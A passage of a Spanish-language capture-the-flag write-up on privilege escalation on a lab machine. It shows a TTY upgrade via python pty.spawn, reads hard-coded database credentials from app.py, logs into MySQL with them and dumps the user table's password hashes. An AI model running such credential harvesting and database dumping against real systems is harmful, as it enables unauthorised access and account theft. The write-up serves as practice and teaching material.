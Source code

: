 
---

## Escalada de privilegios

Acción: tratamiento de la tty. Vemos que esta python instalado con `which python3`

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo; fg
export TERM=xterm
```

Acción:

```bash
ls
cat app.py
```

Resultado: dentro del script que encontramos vemos este fragmento que nos revela unas credenciales `iclean:pxCsmnGLckUb` y una base de datos  `capiclean`

```bash
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
```

Acción: nos conectamos a la base de datos para tratar de encontrar credenciales

```bash
mysql -uiclean -ppxCsmnGLckUb -Dcapiclean
```

Resultado:

```bash
mysql>
```

Acción:

```bash
SHOW databases;
SHOW tables;
describe users;
select username,password from users;
```

Resultado:

```bash
+----------+------------------------------------------------------------------+
| username | password                                                         |
+----------+------------------------------------------------------------------+
| admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 |
| consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa |
+----------+------------------------------------------------------------------+
```
